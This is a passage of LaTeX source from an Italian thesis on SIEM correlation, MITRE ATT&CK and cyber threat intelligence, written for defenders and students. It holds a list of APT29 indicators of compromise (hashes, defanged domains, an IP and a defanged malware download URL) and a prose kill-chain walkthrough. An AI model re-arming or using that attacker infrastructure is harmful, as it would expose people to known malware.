    
\includegraphics[width=0.95\columnwidth]{images/2_architettura_img/OSSIMEvent.jpg}
    \end{center}
    \caption{Evento SIEM OSSIM generato dalla regole in figura 2.4}
    \label{fig:Evento SIEM OSSIM generato dalla regole sopracitata}
    \end{figure}
    
    \item\textbf{Anomaly detection:} Permette di rilevare pattern di attacco non ancora conosciuti. Fondamentalmente confronta il comportamento analizzato con un modello di comportamento “normale”, precedentemente appreso. Il modello viene definito tramite misure statistiche ed euristiche;
    
    \begin{figure}[h]
    \begin{center}
    
\includegraphics[width=0.95\columnwidth]{images/2_architettura_img/impossibleTravel.png}
    \end{center}
    \caption{Evento generato dall’UBA dello stack di sicurezza Microsoft Office365 E5}
    \label{fig:Evento generato dall’UBA dello stack di sicurezza Microsoft Office365 E5}
    \end{figure}

\end{itemize}

I sistemi IDS moderni utilizzato entrambe le tecnologie di rilevamento 

\subsection{Correlation}

La correlazione di uno o più eventi tramite un motore di \textbf{correlation engine} permette una descrizione più avanza, rispetto al singolo evento, del potenziale un attacco.\par

\subsubsection{Correlation engine}

Il correlation engine possiede un’insieme di regole in grado correlare gli eventi, con lo scopo di identificare attacchi sofisticati e assegnarli un valore di rischio:

\begin{figure}[h]
\begin{center}

\includegraphics[width=0.95\columnwidth]{images/2_architettura_img/QRadarOffense.png}
\end{center}
\caption{Offense Qradar e i relativi eventi SIEM correlati}
\label{fig:Offense Qradar e i relativi eventi SIEM correlati}
\end{figure}


Le regole di correlation engine sono basate sul cosiddetto “attacker mindset”, oppure citando Sun Tzu: 

\begin{center}
    \textit{“Conosci il tuo nemico”}
\end{center}

Conoscendo le Tattiche, Tecniche e Procedure (TTP) utilizzate dagli aggressori, il SIEM è in grado di riconoscere un certo tipo di attacco in funzione degli eventi ricevuti.\par

In aiuto ai team di sicurezza nel 2013 MITRE ha presentato il ATT\&CK (Adversarial Tactics, Techniques \& Common Knowledge), un elenco strutturato di TTP utilizzate dagli aggressori per compromettere un sistema informatico.

\newpage

\subsubsection{MITRE ATT\&CK}

Il framework Adversarial Tactics, Techniques \& Common Knowledge (ATT\&CK), è una base di conoscenza accessibile a livello globale di tattiche e tecniche avversarie basate su osservazioni del mondo reale.\par 
MITRE ha suddiviso ATT\&CK in diverse tabelle,in base alla superficie d’attacco:

\begin{itemize}
    \item\textbf{Enterprise:} TTP valide per i sistemi operativi Windows, Linux e/o Mac;
    \item\textbf{Mobile:} TTP valide per dispositivi mobili;
    \item\textbf{PRE-ATT\&CK:} TTP correlate alle fasi di preallestimento dell'attacco;
\end{itemize}

Quando si guarda ATT\&CK sotto forma di tabella, i titoli delle colonne in alto sono le tattiche e sono fondamentalmente categorie di tecniche.\par
Le tattiche sono ciò che gli aggressori tentano di ottenere, mentre le singole tecniche sono come essi mettono in atto tali operazioni.

\begin{figure}[h]
\begin{center}

\includegraphics[width=0.95\columnwidth]{images/2_architettura_img/tabellaATT&CK.png}
\end{center}
\caption{Matrice ATT\&CK Enterprise}
\label{fig:Matrice ATTCK Enterprise }
\end{figure}

Una delle tattiche presenti nella matrice, consiste nel movimento laterale, affinché un aggressore possa ottenere correttamente un movimento laterale in una rete, deciderà di utilizzare una o più tecniche fra quelle elencate nella colonna Movimento laterale della tabella ATT\&CK.\par

Una tecnica è un comportamento specifico volto a ottenere un obiettivo e spesso consiste in un'unica fase di una stringa di attività utilizzate per realizzare la missione globale dell'aggressore. ATT\&CK fornisce molti dettagli di ciascuna tecnica, compreso una descrizione, degli esempi, riferimenti e consigli per la mitigazione e il rilevamento.


\begin{figure}[h]
\begin{center}

\includegraphics[width=0.95\columnwidth]{images/2_architettura_img/tecnicaATT&CK.png}
\end{center}
\caption{Tecnica "Drive-by Compromise" (T1189) presente nella matrice ATT\&CK }
\label{fig:Tecnica "Drive-by Compromise" (T1189) presente nella matrice ATTCK }
\end{figure}

\newpage

Ecco un esempio di come funzionano tattiche e tecniche in ATT\&CK: un aggressore potrebbe voler ottenere l'accesso a una rete e installare un software di ricerca di criptovaluta su quanti più sistemi possibile all'interno di quella rete. 
Al fine di realizzare questo obiettivo globale, l'aggressore deve portare a termine correttamente una serie di fasi intermedie:\par
Deve ottenere l'accesso alla rete, possibilmente attraverso un Spearphishing Link. Poi, potrebbe dover aumentare le autorizzazioni attraverso Process Injection.\par
A quel punto, può ottenere altre credenziali dal sistema attraverso dumping delle credenziali e quindi stabilire la persistenza impostando lo script di ricerca affinché esegua come Operazione programmata.\par
Una volta fatto ciò, l'aggressore potrebbe essere in grado di spostarsi lateralmente nella rete con Pass the Hash e diffondere il software di ricerca di valuta nel maggior numero di sistemi possibile.\par

In questo esempio, se il SIEM riceve eventi singoli che rientrano (completamente o parzialmente ) nella “kill chain” (Accesso iniziale, Aumento dei privilegi, Accesso alle credenziali, Persistenza e Movimento laterale) della Tattica descritta in ATT\&CK , gli eventi vengono correlati e viene generata la segnalazione con tutti i dettagli necessari per eseguire le dovute investigazioni della potenziale intrusione.


\subsubsection{Baseling}

Affinchè il SIEM generi allarmi precisi e inerenti al contesto, in cui è immerso, è necessario minimizzare i falsi positivi, per farlo è necessario definire in fase di tuning una baseling.\par

La baseling sono tutte le attività normali e lecite che vengono eseguite e registrate dal SIEM nella network monitora.\par

Sostanzialmente la baseling sono un insieme di regole che definiscono delle eccezioni ad hoc per la network monitorata, permettendo ai team di sicurezza di concentrarsi solo per anomalie reali e ottimizza il carico di dati che il SIEM deve elaborare.\par


\subsection{Dashboard and reporting}

Le dashboard sono le interfacce con cui gli operatori del SOC e gli analisti della sicurezza interagiscono con gli eventi e allarmi registrati dal SIEM.

Generalmente le dashboard principali sono tre:

\begin{itemize}
    \item\textbf{Interfaccia per il monitoraggio real-time:} Fornisce una visione real-time degli eventi che arrivano al SIEM, permettendo un filtraggio base allo scopo di isolare i messaggi per scopi di debugging, analisi approfondite di eventi specifici e per la reazione ad eventi;
    \item\textbf{Interfaccia per la gestione degli incidenti:} Fornisce una visione degli allarmi generati e le funzioni necessarie per l’analisi e la gestione delle segnalazioni;
    \item\textbf{Interfaccia per le analisi statistiche:} Fornisce dati sulle statistiche di attività di sicurezza sul corto, medio e lungo periodo;
\end{itemize}

Inoltre i SIEM hanno a disposizione strumenti meno operativi ma con uno scopo preventivo, tendenzialmente sono presenti le seguenti interfacce:

\begin{itemize}
    \item\textbf{Interfaccia per la vulnerability assessment (VA):} Fornisce informazioni sul livello di sicurezza globale, fornisce strumenti per trovare vulnerabilità nel sistema, simulando scenari di intrusioni e i dettagli su patch e configurazioni;
    \item\textbf{Reporting:} Fornisce reportistiche a medio e lungo termine sulle intrusioni verificatisi, tipi, frequenze, sorgenti e conseguenze sui sistemi monitorati. È usato per determinare trend, attacchi ricorrenti e sistemi maggiormente colpiti;
\end{itemize}

Le Dashboard e i report permettono la totale governance della sicurezza ai team operativi, minimizzando il rischio di intrusione da attori malevoli.
Il monitoraggio e il tuning delle regole è alla base della difesa perimetrale, per questo il SIEM deve essere parte di processo continuo di evoluzione e addestramento dell’infrastruttura per essere pronti a nuovi scenari di attacco.


\chapter{Cyber Threat Intelligence (CTI)}
\label{chap:Cyber Threat Intelligence}

L’Intelligence affonda le sue radici nell’ambito militare dove ha importanza strategica per prevedere e anticipare le mosse degli avversari.

Esistono numerose definizioni del termine Intelligence e tutte sono accomunate dall’importanza che hanno le informazioni. 
Conoscere le intenzioni e i mezzi del nemico è un grande vantaggio e consente di guidare in modo ottimale il processo decisionale:


\begin{itemize}
    \item\textbf{Presidenza del Consiglio dei Ministri:} Il prodotto dell’elaborazione di una o più notizie di interesse per la Sicurezza Nazionale;
    \item\textbf{NATO:} Il prodotto risultante dalla raccolta e dell’analisi delle informazioni sull’ambiente, le capacità e le intenzioni degli attori, finalizzato all’identificazione delle minacce e a supportare il processo decisionale;
    \item\textbf{FBI:} Rappresenta l’insieme di informazioni utili al processo decisionale. In qualità di membro della Comunità di Intelligence degli Stati Uniti, l’FBI raccoglie, usa e condivide tali informazioni in qualsiasi attività svolga;
\end{itemize}


La Cyber Threat Intelligence rappresenta la capacità di Intelligence sviluppata in ambito cybersecurity. Include la raccolta e l’analisi di informazioni al fine di caratterizzare possibili minacce cyber dal punto di vista tecnico, di risorse, di motivazioni e di intenti, spesso in relazione a contesti operativi specifici (Caforio, 2018).

Con la continua evoluzione delle minacce, la componente di intelligence, anche nel campo della cybersecurity, sta acquisendo un’importanza sempre più rilevante, diventando parte integrante delle strategie di difesa.

La semplificazione e l'uso improprio del termine "Cyber Threat Intelligence" possono rendere difficile per i responsabili della sicurezza valutare l'ampia gamma di opzioni disponibili per aumentare l'efficacia della sicurezza. 

\newpage

Nella migliore delle ipotesi, un'organizzazione riceve una vera e propria intelligence, che facilita decisioni proattive ed efficaci.
Nel peggiore dei casi, riceve informazioni che allo stato grezzo, non sono utilizzabili, per questo è necessario marcare la differenza tra informazioni e intelligence (Graham, 2020):


\begin{figure}[h]
\begin{center}

\includegraphics[width=0.95\columnwidth]{images/3_CTI_img/infoIntellDiff.png}
\end{center}
\caption{Differenze Cyber Threat Information e Cyber Threat Intelligence}
\label{fig:Differenze Cyber Threat Information e Cyber Threat Intelligence }
\end{figure}


\section{Livelli di Intelligence}
\label{sec:Livelli di Intelligence}


La cyber threat intelligence, come per l'intelligence classica, viene suddivisa in tre livelli: 

\begin{itemize}
    \item\textbf{Tattico;}
    \item\textbf{Operativo;}
    \item\textbf{Strategico;}
\end{itemize}


L'intelligence strategica informa i più alti responsabili delle decisioni, l'intelligence operativa si rivolge a coloro che prendono le decisioni quotidiane e l'intelligence tattica si concentra sulle unità che hanno bisogno di informazioni istantanee. 

\newpage

\subsection{Intelligence a livello tattico}

Questa è la forma più tecnica di intelligence, esamina cosa accade a basso livello e fornisce elementi atomici associati ad attacchi conosciuti, i famosi indicatori di compromissione (IoC).

\begin{center}
    \noindent\textbf{Esempio output intelligence tattica per APT29:}\newline\newline
    \begin{varwidth}{\textwidth}
        \begin{itemize}
          \item 628d4f33bd604203d25dbc6a5bb35b90
          \item 2aabd78ef11926d7b562fd0d91e68ad3
          \item 3d3363598f87c78826c859077606e514
          \item meek-reflect[.]appspot[.]com
          \item portal[.]sbn[.]co[.]th
          \item 202[.]28[.]231[.]44
          \item hxxps://files.counseling[.]org/eFax/incoming/150721/5442.zip
          \item googleService.exe
          \item GoogleUpdate.exe
          \item acrotray.exe
          \item PCIVEN\_80EE\&DE\_CAF
        \end{itemize}
    \end{varwidth}
\end{center}

\newpage

\subsection{Intelligence a livello operativo}

Questo livello fornisce informazioni sugli avversari, partendo dalle informazioni ricavate dall’intelligence tattica si è in grado di definire un “profilo di minaccia”, con TTP e IoC legate ad essa.

\begin{center}
    \noindent\textbf{Esempio output intelligence operativa per APT29:}\newline\newline
    \begin{varwidth}{\textwidth}
        \begin{itemize}
            \item Preferred Infection Vector: spearphishing with self-extracting RAR
            \item First Stage Malware Families: COZYCAR, SWIFTKICK, TADPOLE
            \item Second Stage Malware Families: SEADADDY, MINIDIONIS, SPIKERUSH
            \item Persistence Techniques
            \item Scheduled Tasks for most backdoors
            \item WMI by manual installation for backdoors that do not have persistence built in
            \item Legitimate file replacement of Windows Error Reporting file (wermgr.exe)
            \item Use of TOR for C2
            \item Use of Google Docs for C2
            \item Use of Google Cloud Apps for C2 forwarding (as a proxy)
            \item Use of HTTP POST requests over 443 for C2
            \item Use of backdoors configured for ports 1, 80, 443, 3389 for C2
            \item Use of PowerShell scripts
        \end{itemize}
    \end{varwidth}
\end{center}


\newpage


\subsection{Intelligence a livello strategico}

L’intelligence strategica è l’ultimo l’livello ad essere implementato, fornisce un quadro generale di come le minacce stanno mutando nel tempo. L'intelligence strategica può essere in grado di identificare tendenze storiche, motivazioni o attribuzioni su chi c'è dietro un attacco, rendendo un solido punto di partenza per decidere quali contromisure difensive saranno più efficaci.

\begin{center}
    \noindent\textbf{Esempio output intelligence strategica per APT29:}\newline\newline
    \begin{varwidth}{\textwidth}
        \begin{itemize}
            \item APT29 is a Russia-based actor that typically engages in cyber espionage with the purpose of data theft.
            \item APT29 victims include many global organizations in government, education, high-technology, finance, non-profit, pharma, and the Defense Industrial Base.
            \item APT29 is an adaptable, sophisticated group with the ability to develop custom attack tools, convoluted command-and-control infrastructure, and unlike historical behaviors of Russian state-sponsored actors, this group has the audacity to continue to operate long after they have been detected.
            \item APT29 has been historically tasked to pursue operations surrounding foreign government policy issues, especially those involving the Russia-Ukraine conflict. Furthermore, the group has targeted several Western national government agencies, defense and government contractors, and academic institutions.
        \end{itemize}
    \end{varwidth}
\end{center}

\newpage

\section{Ciclo di intelligence}
\label{sec:Ciclo di intelligence}

In generale, il processo di intelligence si compone di cinque fasi: il processo inizia con l’identificazione del fabbisogno informativo o più semplicemente con la richiesta informativa, poi vi è la raccolta delle informazioni, il trattamento delle informazioni, l’analisi, la valutazione e la produzione, la disseminazione e infine il feedback.

\begin{figure}[h]
\begin{center}

\includegraphics[width=0.80\columnwidth]{images/3_CTI_img/processoDiIntelligence.png}
\end{center}
\caption{Ciclo di intelligence}
\label{fig:Ciclo di intelligence}
\end{figure}



\subsection{Planning and direction}

Questo è probabilmente il passo più importante nel ciclo dell'intelligence, perché è il momento in cui i team definiscono lo scopo e gli obiettivi di un'operazione di intelligence, noti come requisiti di intelligence (IR).
Gli IR riflettono ciò che un team CTI non sa, ma che dovrà scoprire per soddisfare lo scopo dell'operazione.

\newpage

\subsection{Collection}

Qui viene preparato un piano di raccolta dati necessari a soddisfare le IR definite nella fase precedente.
Le principali fonti delle informazioni si suddividono in tre categorie:

\begin{itemize}
    \item\textbf{Interne:} Qualsiasi informazione raccolta dall’interno dell’organizzazione. Possono essere informazioni riportate dagli strumenti di sicurezza e dispositivi di rete (firewall, IDS, IPS) o dalle macchine e dispositivi degli utenti. Una importante parte di intelligence proviene anche da analisi forense, capace di trovare materiale non immediatamente visibile o disponibile e che può essere utile al rilevamento di altri attacchi;
    \item\textbf{Comunità:} Include qualsiasi informazione scambiata attraverso una relazione fidata con gruppi o membri che condividono lo stesso interesse. 
    \item\textbf{Esterne:} Rientrano in questa categoria le informazioni provenienti da fonti esterne all'organizzazione e non parte di un gruppo della comunità.
    A loro volta possono essere classificate in due sottocategorie:
:
        \begin{itemize}
            \item\textbf{Open Source Intelligence (OSINT):} Fonti disponibili pubblicamente, e generalmente non vi è alcun costo associato. Un esempio di un feed CTI pubblico è MalwareDomains. MalwareDomains fornisce un elenco di domini noti per essere coinvolti in attività malevole;
            \item\textbf{Close Source Intelligence (CLOSINT):} Fonti chiuse, non accessibili al pubblico. Tipicamente la consultazione avviene tramite una sottoscrizione a pagamento. Tendenzialmente la CLOSINT possiede una qualità superiore rispetto alla OSINT;
        \end{itemize} 
\end{itemize}

Ogni fonte deve essere valutata, si usa un codice che va dalla lettera “A” (affidabile) alla lettera “F” (non classificabile). Tale attività si definisce “classificazione dell’informazione”.\par
Come le fonti, anche le informazioni vanno valutate e in questo caso si usa un valore che va da “1” (confermato) a 6 (Non classificabile). Questo processo si definisce “Classificazione dei contenuti informativi” (Brando, 2018).

\newpage

\begin{figure}[h]
\begin{center}

\includegraphics[width=0.95\columnwidth]{images/3_CTI_img/classificazioneInformazione.jpg}
\end{center}
\caption{Scale di classificazione delle fonti e dei contenuti informativi ricavati dal Field Manual FM 2.22-3}
\label{fig:Scale di classificazione delle fonti e dei contenuti informativi ricavati dal Field Manual FM 2.22-3}
\end{figure}

Quindi l’informazione avrà un valore dato dall’affidabilità della fonte più l’attendibilità dell’informazione. 
Ad esempio un’informazione potrebbe essere classificata come A-3, cioè la fonte si reputa “affidabile” ma non si ha certezza che la notizia sia veritiera.



\subsection{Processing and Exploitation - Analysis and Production}

Questa fase è un passaggio chiave, in quanto, trasforma i dati e le notizie raccolte in un prodotto finito utilizzabile, ed è anche il primo momento nel quale è possibile riorientare la ricerca delle informazioni.

\subsection{Dissemination}


Questo è il momento in cui l’analista comunica il risultato della sua ricerca, il quale deve esporlo in modo breve, conciso e preciso, ciò implica infatti una fase di sintesi del proprio lavoro.
La condivisione delle informazioni raccolte deve rispettare criteri di riservatezza e di formato.

\newpage

\subsubsection{Traffic Light Protocol (TLP)}

Il TLP è un protocollo utilizzato per lo scambio di informazioni in grado di garantire la diffusione delle stesse in modo controllato. 

    \begin{figure}[h]
    \begin{center}
    
\includegraphics[width=0.95\columnwidth]{images/3_CTI_img/tlp.png}
    \end{center}
    \caption{Definizione stati del protocollo TLP}
    \label{fig:Definizione stati del protocollo TLP}
    \end{figure}
    
TLP utilizza quattro colori per indicare i limiti di condivisione, fornendo uno schema semplice e intuitivo per indicare quando e come le informazioni sensibili possono essere condivise, facilitando una collaborazione più frequente ed efficace tra entità.

